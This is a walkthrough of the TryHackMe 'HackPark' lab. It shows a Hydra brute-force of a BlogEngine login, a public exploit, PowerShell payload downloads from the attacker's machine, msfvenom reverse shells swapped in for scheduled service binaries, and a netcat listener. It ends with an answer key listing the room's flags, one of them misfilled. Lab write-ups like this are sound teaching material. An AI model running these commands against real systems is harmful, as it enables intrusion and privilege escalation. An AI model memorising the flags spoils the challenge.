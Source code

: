 ```yaml
---
- **Title:** HackPark
- **Description**: Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!
- **IP Address:** 10.10.183.206
- **Set up:**
	```bash
	export IP=10.10.183.206
```
---
```


![Header](./Images/Header.png)

As usual, an nmap scan will be performed agaisnt the target:

![nmap-scan](./Images/nmap-scan.png)

Opening the webserver of the target in Firefox, I saw there was a log in page. Using hydra, I was able to crack the credentials to log in. 


```bash
	# Template
	hydra -l <USERNAME> -P <PASSWORD_LIST> <TARGET_IP> http-post-form "<URL_PATH>:<BODY_REQUEST>:<INCORRECT_MESSAGE>"
	# Actual command	
	hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "Account/login.aspx:__VIEWSTATE=DHB46lC8cazQrr2RBQjg6Ffc7o%2FgbFyfdp%2BTTXx95qMGua4CvAffHC%2FM4IZcs%2B7U7IF7%2BKZldONXrawKIwbf2UEqgKe17U5fxQQR4xXByFSsyZCPYlzyEG3B0A5k78oVU0jfkTarZRgBfbsuIwdqBkqk%2BYhNVo%2Fqjc%2F2rv9zmIQaYi%2BS&__EVENTVALIDATION=AjmQQrhosSIuA3yb9ElyGnp7O3eWMx7uICmmgaADEXK4BmRAr7insTI3qsYDAl3xctMpfIjK4or%2BgZkCVfbuNS8PRmV6K6vXktEK0YQPZlEjdW3sZomiTCQGcvsetIlOtAPFg0Bl7lftjm0psijr2L8LqvMdvroY22gvV1V%2BYacsAFn1&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

To obtain the value of <BODY_REQUEST> field:
	1. Go to Log in page.
	2. Input value for username and password fields
	3. Click LogIn button
	4. Open developer tool 
	5. Go to Network Tab
	6. On the right side, select the Request tab
	7. Right click the POST request and select: "Edit and Resend"
	8. The value for the Body Request will be populated. Copy everything and paste into hydra command.

![retrieve-body-request](./Images/retieve-body-request.png)

Execute Hydra command, I get credentials to log in.

![hydra-attack](./Images/hydra-attack.png)

Once logged in, I obtained the CMS information. From research, I was able to find related exploit to carry out. Using the exploit found [here]("https://www.exploit-db.com/exploits/46353"), I was able to gain initial access.

![initial-access](./Images/initial-access.png)

Now I've got a shell on the target machine, I upload the winPEAS.exe to enumerate the system. From my machine, I set up a local server  ```python -m http.server 8000``` . On the target machine, I download the winPEAS over 

```bash
powershell -c Invoke-WebRequest "http://<MY_IP>:8000/Payloads/winPEASx64.exe" -OutFile "winPEASx64.exe"
```

Once I got winPEAS.exe on the target machine, I ran:

```bash
winPEASx64.exe servicesinfo
```

From the output, I found something interesting. 

![winPEAS-service](./Images/winPEAS-service.png)

I found there was a writable folder, which is __C:\\Program Files (x86)\SystemScheduler__
This means I can create a maliciouse file, upload on this folder and run it. What I need to do is to figure what exe file I should use to upload the malicious file. From the winPEAS result, I saw wservice.exe seems to be the best candidate. On my machine, I create a revershell and name it WService.exe:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<MY_IP> LPORT=23456 -f exe > WService.exe
```

On the target machine, I rename the original WService.exe to WService.bak
```
	# command prompt
	rename WService.exe WService.bak
```

Then I download the malicious WService.exe from my machine:
```bash
powershell -c Invoke-WebRequest "http://<MY_IP>:8000/Payloads/WService.exe" -OutFile "WService.exe"
```

Setup a lisnter on my machine
```bash
nc -lnvp 23456
```

Running the WService.exe, I got another reverse shell. However, this was not stable and I wasn't able to escalate privilege. WService.exe didn't seem to be the correct answer on TryHackMe, either. So I poked around the SystemScheduler folder.

After poking for a while, I notice that inside the Events folder, there was a susspicious text file.

![suspicious-file](./Images/suspicious-file.png)

Viewing the file, I found the Message.exe is run with Administrator privilege. So, I repeated the above steps, creating a malicious file named Message.exe, rename the original Message.exe to Message.bak and download the new one to the target machine.

```bash
# rename the file
rename Message.exe Message.bak

# create malicious file on attacking machine
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<MY_IP> LPORT=23456 -f exe > Message.exe

# Download the file from the attacking machine to the target machine
powershell -c Invoke-WebRequest "http://<MY_IP>:8000/Message.exe" -OutFile "Message.exe"
```


Wait for a few minutes and this Message.exe will be run on the target system. We get another reversese shell with escalated privilege. I could now cat the content of user.txt and root.txt






-----------------------------------------------
<details>
    <summary> Answer </summary>
	-------------------------------------------------------------------------------- <br>
-   What is the name of the clown displayed on the homepage?  <br>
		-> pennywise <br>
	-------------------------------------------------------------------------------- <br>
-   What request type is the Windows website login form using? <br>
		-> POST <br>
	-------------------------------------------------------------------------------- <br>
- Guess a username, choose a password wordlist and gain credentials to a user account! <br>
		-> 1qaz2wsx<br>
	-------------------------------------------------------------------------------- <br>
-     Now you have logged into the website, are you able to identify the version of the BlogEngine? <br>
		-> 3.3.6.0<br>
	-------------------------------------------------------------------------------- <br>
- What is the CVE?<br>
		-> CVE-2019-6714<br>
	-------------------------------------------------------------------------------- <br>
-  Using the public exploit, gain initial access to the server. Who is the webserver running as <br>
		-> iis apppool\blog <br>
	-------------------------------------------------------------------------------- <br>
- What is the OS version of this windows machine? <br>
		-> iis apppool\blog <br>
	-------------------------------------------------------------------------------- <br>
- What is the name of the abnormal service running <br>
		->  WindowsScheduler<br>
	-------------------------------------------------------------------------------- <br>
- What is the user flag (on Jeffs Desktop)? <br>
		-> 759bd8af507517bcfaede78a21a73e39 <br>
	-------------------------------------------------------------------------------- <br>
- What is the root flag? <br>
		-> 7e13d97f05f7ceb9881a3eb3d78d3e72 <br>
	-------------------------------------------------------------------------------- <br>
- Using winPeas, what was the Original Install time? (This is date and time) <br>
		-> 8/3/2019, 10:43:23 AM <br>
	-------------------------------------------------------------------------------- <br>
</details>